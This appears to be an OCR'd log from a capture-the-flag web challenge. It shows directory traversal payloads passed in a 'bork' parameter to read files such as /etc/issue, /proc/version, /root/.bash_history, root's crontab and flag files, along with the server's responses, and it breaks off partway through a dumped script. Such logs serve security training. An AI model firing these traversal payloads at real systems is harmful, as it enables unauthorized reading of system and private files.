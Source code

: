 bork=../../../../../etc/issue : `Ubuntu 16.04.1 LTS \n \l`

bork=../../../../../proc/version : `Linux version 4.4.0-47-generic (buildd@lcy01-03) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.2) ) #68-Ubuntu SMP Wed Oct 26 19:39:52 UTC 2016`

bork=../../../../../etc/profile :

```
"# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

if [ &#34;$PS1&#34; ]; then
  if [ &#34;$BASH&#34; ] &amp;&amp; [ &#34;$BASH&#34; != &#34;/bin/sh&#34; ]; then
    # The file bash.bashrc already sets the default PS1.
    # PS1=&#39;\h:\w\$ &#39;
    if [ -f /etc/bash.bashrc ]; then
      . /etc/bash.bashrc
    fi
  else
    if [ &#34;`id -u`&#34; -eq 0 ]; then
      PS1=&#39;# &#39;
    else
      PS1=&#39;$ &#39;
    fi
  fi
fi

if [ -d /etc/profile.d ]; then
  for i in /etc/profile.d/*.sh; do
    if [ -r $i ]; then
      . $i
    fi
  done
  unset i
fi
```

bork=../../../../../root/.bash_history : youtube video

bork=../../../../../var/log/dmessage : No such file or directory

bork=../../../../../var/mail/root : No such file or directory

bork=../../../../../var/spool/cron/crontabs/root : Permission denied

bork=../../../../../home/ctfuser/flag.txt : No such file or directory

bork=../../../../../home/ctfuser/Web-300/app/.htaccess : youtube video

bork=../../../../../home/ctfuser/Web-300/app/flag.txt : youtube video

bork=../../../../../usr/bin/lesspipe :

```
#!/bin/sh
#
# lessfile/lesspipe
# $Id: lessopen,v 1.4 1998/05/12 09:37:46 torin Exp $
# Plus POSIX sh changes by Y.Dirson
#
# Less filter for viewing non text files.
#
# Written by: Behan Webster &lt;behanw@pobox.com&gt;
# Many Modifications by Darren Stalder
# Further Modifications by Thomas Schoepf &lt;schoepf@debian.org&gt;
#
# combined lessfile and lesspipe to avoid duplication of decode stage
# shell is sure icky.  I&#39;m real tempted to rewrite the whole thing in Perl
#
# Unfortunately, this means that I have filename dependencies sprinkled
```